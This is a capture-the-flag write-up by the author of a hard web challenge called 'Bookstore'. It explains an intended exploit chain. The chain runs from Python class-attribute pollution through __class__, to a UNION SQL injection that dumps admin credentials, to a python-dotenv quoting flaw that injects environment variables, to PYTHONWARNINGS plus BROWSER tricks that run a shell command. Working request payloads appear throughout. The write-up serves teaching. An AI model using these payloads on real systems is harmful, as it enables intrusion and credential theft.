








# Bookstore

**Category:** Web / RCE  
**Difficulty:** Hard

---

This was one of the 4 Web tasks i wrote for GCUP CTF V2. Overall I had lots of fun writing these challenges and finding out the interesting ways people approached these challenges (or their AI agents did...) and it was also a learning experience seeing the different ways people used to uncover the same vulnerability.

There is a familiar rhythm to multi-step web challenges: find a crack, pry it open just
enough to reach the next one. Bookstore has four cracks. None of them individually gets
you anything. Together they chain from a genre filter into full command execution.



---

## Step 1: Prototype pollution past a class-level whitelist

The book catalogue lets you filter by genre. It sends a JSON preferences object to
`/api/prefs`, which is merged onto a fresh `SearchConfig` instance using this recursive
function:

```python
def _populate(obj, data):
    for k, v in data.items():
        if isinstance(v, dict):
            node = getattr(obj, k, None)
            if node is None or node in _NATIVE:
                continue
            _populate(node, v)
        elif not k.startswith('__'):
            setattr(obj, k, v)
```

When a value is a dict, `_populate` grabs the attribute with `getattr` and recurses
into it. When it's a leaf, it calls `setattr`, skipping any key that starts with `__`.
That leaf guard looks protective. It isn't, because it only blocks *setting* a
dunder; it doesn't block *descending through* one.

The validation check that guards the SQL query is:

```python
def is_allowed(self):
    return self.genre in type(self).allowed_genres
```

`type(self).allowed_genres` reads the **class** attribute. Setting `allowed_genres` on
the instance does nothing. The check always reads from `SearchConfig` the class, not
from the specific `cfg` object. To bypass it you need to write to the class itself,
and `_populate` gives you the path via `__class__`:

```json
POST /api/prefs HTTP/1.1
Content-Type: application/json

{
  "__class__": {
    "allowed_genres": ["' UNION SELECT 1,username,password FROM admin-- "]
  },
  "genre": "' UNION SELECT 1,username,password FROM admin-- "
}
```

`_populate` sees `"__class__"`, fetches `getattr(cfg, "__class__")` which is
`SearchConfig` itself, and recurses into it. Inside that recursion, `allowed_genres` is
a plain non-dunder key, so `setattr(SearchConfig, "allowed_genres", [...])` runs. The
class whitelist now contains your SQL payload. `is_allowed()` finds it there and
returns `True`. The genre gets stored in the session.

---

## Step 2: SQL injection

`/books` constructs its query with an f-string:

```python
rows = db.execute(
    f"SELECT id, title, author FROM books WHERE genre='{genre}'"
    f' ORDER BY {sort_field} {sort_order}'
).fetchall()
```

With the genre set to `' UNION SELECT 1,username,password FROM admin-- `, the
executed query becomes:

```sql
SELECT id, title, author FROM books WHERE genre=''
UNION SELECT 1,username,password FROM admin-- 
ORDER BY title asc
```

The admin table row gets mapped into the books response shape, with `username` landing
in `title` and `password` landing in `author`:





From there: copy the password out of `author`, hit `/login` with `admin` and that hash,
and the session gets `role=admin`.


---

## Step 3: Breaking python-dotenv's single-quote quoting

First of all, i have to shoutout f0dh1l for being my introduction to this technique: https://f0dh1l.github.io/blog/posts/bsides_algiers_2k25_web_library_of_vaults/
please checkout his writeup and his work.

The admin backup panel saves two config fields through python-dotenv's `set_key`:

```python
set_key(env_file, 'BACKUP_SERVER', request.form.get('backup_server', ''))
set_key(env_file, 'ARCHIVE_PATH',  request.form.get('archive_path',  ''))
```

`set_key` ([source on GitHub](https://github.com/theskumar/python-dotenv/blob/v1.0.1/src/dotenv/main.py#L381))
always wraps stored values in single quotes, escaping any internal single quote as `\'`:

```python
if quote:
    value_out = "'{}'".format(value_to_set.replace("'", "\\'"))
```

The parser that later reads the file matches single-quoted values with this regex
([parser.py](https://github.com/theskumar/python-dotenv/blob/v1.0.1/src/dotenv/parser.py#L26)):

```python
_single_quoted_value = make_regex(r"'((?:\\'|[^'])*)'")
```

Read it carefully: it matches an opening `'`, then any run of either `\'` or any
non-quote character, then a closing `'`. The escape sequence `\'` is valid **inside**
the match, not as the **end** of it. That is the flaw.

If your value ends with a single backslash, `set_key` outputs:

```
BACKUP_SERVER='a\'
```

The parser hits the `\'` and reads it as an escaped internal quote rather than a
closing delimiter. The value is now unterminated. The parser keeps consuming past the
newline, treating the `'` at the start of the **next** `set_key` line as the eventual
closing quote. Every bare line between the two `set_key` writes becomes an
unquoted `KEY=value` binding.

### Round 1: inject BROWSER

Send this to `POST /admin/backup`:

```
action=save
backup_server=a\
archive_path=y'
BROWSER=/bin/bash -c "cat /flag" %s
y
```

After both `set_key` calls, the file on disk is:

```
BACKUP_SERVER='a\'
ARCHIVE_PATH='y\'
BROWSER=/bin/bash -c "cat /flag" %s
y'
```

`dotenv_values()` parses `BACKUP_SERVER` as garbage (its value spans to the stray `'`
before `y`), `BROWSER` as a clean binding, and `y'` as a junk key with value `None`.
The app filters out `None`-valued keys before building the subprocess environment, so
`BROWSER` lands cleanly.



### Round 2: inject PYTHONWARNINGS

Same `backup_server=a\` trick, different `archive_path`:

```
action=save
backup_server=a\
archive_path=y'
PYTHONWARNINGS=all:0:antigravity.x:0:0
y
```

Because the first `ARCHIVE_PATH` line was consumed into `BACKUP_SERVER`'s broken value,
`set_key` can no longer locate it and appends a second block. Both injected variables
now coexist in the file (in the actual server):



---

## Step 4: antigravity
Everything leading up to this was to trigger the vulnerability which is first documented in https://bughunters.google.com/reports/vrp/dsyW9gzdm 

Triggering the backup runs `python3 /app/backup.py` with the merged environment.
`backup.py` itself is inert: a print and a sleep. The work happens at interpreter
startup before the script body executes.

Python reads `PYTHONWARNINGS=all:0:antigravity.x:0:0`. The five colon-separated fields
are `action:message:category:module:lineno`. Resolving the category `antigravity.x`
sends Python into `warnings._getcategory`, which splits on `.`, calls
`__import__('antigravity')`, and only *then* looks for attribute `x`. The attribute
lookup fails and prints `Invalid -W option ignored`, but the import already fired, and
`antigravity`'s module body runs:

```python
import webbrowser
webbrowser.open('https://xkcd.com/353/')
```

`webbrowser.open()` consults `BROWSER`. There is a quirk that the payload must respect:
`webbrowser` only `shlex`-splits a `BROWSER` string into program + args when the string
contains `%s`. Without `%s` it treats the entire string as a single executable name
(`Popen(['/bin/bash -c "cat /flag"', url])`) which does not exist and fails silently.
With `%s` it builds:

```python
['/bin/bash', '-c', 'cat /flag', 'https://xkcd.com/353/']
```

Bash runs `cat /flag`. The xkcd URL lands in `$0` and is ignored. Because
`subprocess.run(capture_output=True)` holds the stdout pipe open and waits for the
whole process tree, the flag text comes back in the JSON response:





While this was the intended path and it's extremely cool (in my biased opinion), this last part was not solved like this. Most solvers noticed that once you have arbitrary env control over the subprocess,
you can skip the `PYTHONWARNINGS`+antigravity detour entirely and inject a single env
var that the Python startup machinery executes directly; the dotenv injection step is
identical, only the variable name changes. The elttam writeup
[Hacking with Environment Variables](https://www.elttam.com/blog/env/) is the standard
catalogue for this family of techniques.
